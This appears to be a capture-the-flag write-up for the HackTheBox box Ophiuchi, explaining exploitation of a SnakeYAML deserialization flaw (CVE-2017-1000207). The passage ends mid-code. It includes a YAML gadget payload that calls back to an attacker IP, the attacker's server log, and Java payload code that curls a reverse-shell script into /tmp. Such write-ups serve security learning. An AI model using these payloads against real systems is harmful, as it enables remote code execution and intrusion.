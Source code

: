 
# Exploitation

## SnakeYAML deserialization - CVE-2017-1000207

Searching on Google it was possible to find some interesting articles talking about a **deserialization vulnerability** (CVE-2017-1000207) impacting the **SnakeYaml** software, the exact same component used by the YAML parser.

- [Swagger YAML Parser Vulnerability (CVE-2017-1000207 and CVE-2017-1000208)](https://securitylab.github.com/research/swagger-yaml-parser-vulnerability/)
- [SnakeYaml Deserilization exploited](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858)

CVE-2017-1000207:

>[!bug]
> A vulnerability in Swagger-Parser's version <= 1.0.30 and Swagger codegen version <= 2.2.2 yaml parsing functionality results in arbitrary code being executed when a maliciously crafted yaml Open-API specification is parsed. This in particular, affects the 'generate' and 'validate' command in swagger-codegen (<= 2.2.2) and can lead to arbitrary code being executed when these commands are used on a well-crafted yaml specification.


As discussed in the articles, sending a specific payload to the parser allowed to obtain a request from it.

The Poc used for the test was the following:

```yaml
!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://10.10.14.24"]]]]
```

Submitting the PoC to the parser it was possible to obtain a connection back to the attacker machine:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Ophiuchi]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.227 - - [02/May/2021 13:34:48] "GET / HTTP/1.1" 200 -
```

Confirmed the existence of the vulnerability, to get a working RCE it was necessary to craft a specific payload or alternatively find an working one. After some googling the following GitHub repo was found, presenting itself as "A tiny project for **generating payloads for the SnakeYAML deserialization gadget**".

[https://github.com/artsploit/yaml-payload](https://github.com/artsploit/yaml-payload)

Once cloned the repository, the **AwesomeScriptEngineFactory.java** file was edited to download a malicious bash reverse shell on the target:

```bash
┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/yaml-payload]
└─$ nano src/artsploit/AwesomeScriptEngineFactory.java

import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
        Runtime.getRuntime().exec("curl http://10.10.14.24/rs.sh -o /tmp/revshell.sh");
        } catch (IOException e) {
            e.printStackTrace();
```